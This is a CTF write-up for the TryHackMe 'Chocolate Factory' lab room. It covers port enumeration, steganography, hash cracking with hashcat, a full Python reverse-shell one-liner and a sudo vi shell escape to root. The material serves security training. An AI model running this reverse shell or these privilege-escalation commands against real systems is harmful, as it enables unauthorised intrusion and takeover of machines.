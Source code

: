 # [Chocolate Factory](https://tryhackme.com/room/chocolatefactory) 
> Darshan Patel

## Overview

| Tables | Description |
| ------ | ----------- |
| Challenge Name | Chocolate factory |
| Difficulty | Easy |
| Tags | chocolatefactory, ctf, stego, priv-esc|

---

```shell
export IP=10.10.185.246
```

Let's kick off with a few `nmap` scans to enumerate the box

```shell
nmap -sC -sV -v $IP -oN nmap/initial.txt
```
Reveals the following
```
Ports:
21 ftp
22 ssh
80 http
106 unique
110 unique
111 unique
113 unique
125 unique
```

During the nmap scan, I noticed that it took much to scan - because within each of the special ports, there was a hint about which file to get.

![hint](./assets/hint.png)

Thankfully as nmap did that for us, I was able to quickly find `http://localhost/key_rev_key` which points to a directory on the box.
Downloading the file and analysing it, it appears to be some sort of binary file we are meant to run... I decided that before I use Ghidra or equivilent I would run it through strings - and viola!

![First key](./assets/binary_key.png)

Some sort of key, throwing it into b64 and other base decodes doesn't reveal much so I postpone working on it.

Then I looked into the other ports, first ftp. It allowed anonymous login and there was a solitary `gum_room.png` file. Throwing it into a steg decode revealed that it was a large file encoded in base64. Decoding the base64 file revealed it to be a shadow file! With an exposed hash for a user `charlie`, which I immediately put into a hash-cracker

```shell
hashcat -m 1800 '$6$CZJnCPeQWp9/jpNx$khGlFdICJnr8R3JC/jTR2r7DrbFLp8zq8469d3c0.zuKN4se61FObwWGxcHZqO2RJHkkL1jjPYeeGyIJWE82X/' ~/wordlists/passwords/rockyou.txt
```


---

Moving on to the main website, I first enumerate it with `gobuster`

```shell
gobuster dir -t 64 -u $IP -w ~/wordlists/website_dir/directory-list-2.3-medium.txt -x .php,.txt,.html,.jpg,.png -o gobuster/dir_med.txt
```

Doing this I discover some interesting directories.
```
/home.php
/validate.php
```
Going into `home.php` revealed it to be a web-side command shell.

![home page](./assets/home.png)

I then use a python reverse shell to give myself better access to it
```shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<<IP>>",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

I check the php code for `validate.php` which contains the plaintext username and password for charlie

![validate](./assets/validate.png)

Using his credentials simply takes me back to `validate.php`.

Now that I have box access, I navigate and investigate charlie's home directory, which contains a user.txt (cannot view) but two files, teleport and teleport.pub; which are charlie's ssh public and private keys. Copying these over, I can now ssh into the box as charlie.

(Note that the hashcat cracker is still _pointlessly_ chugging away in the background)

As charlie, I am now able to grab the user flag and submit it. My new focus is on Priviledge Escalation.
I dutifully check charlie's sudo permissions even though I do not have his password.

![sudo](./assets/sudo.png)

We can sudo `/usr/bin/vi` without requiring a password - although with the caveat that we cannot run it as root - or is it?

```shell
sudo vi -c ':!/bin/bash -i' /dev/null
```

And we now have root access!

Going into `/root` though reveals that we are not quite done yet. There's a python script which will reveal our final flag!

![python script](./assets/root_script.png)

The script is using a Fermet Cipher, which requires a cipher and its key to decode. The cipher is hardcoded into the script and we had found the key in an earlier question.

Time to run the script and get our key...?

![import error](./assets/import_error.png)

Nope, the decoding library _is not even loaded_ onto the box and instead of trying to upload it to the box using http or scp, I throw in into an online decoder.

![decoded flag](./assets/decoded_flag.png)

And this room is _**complete!**_

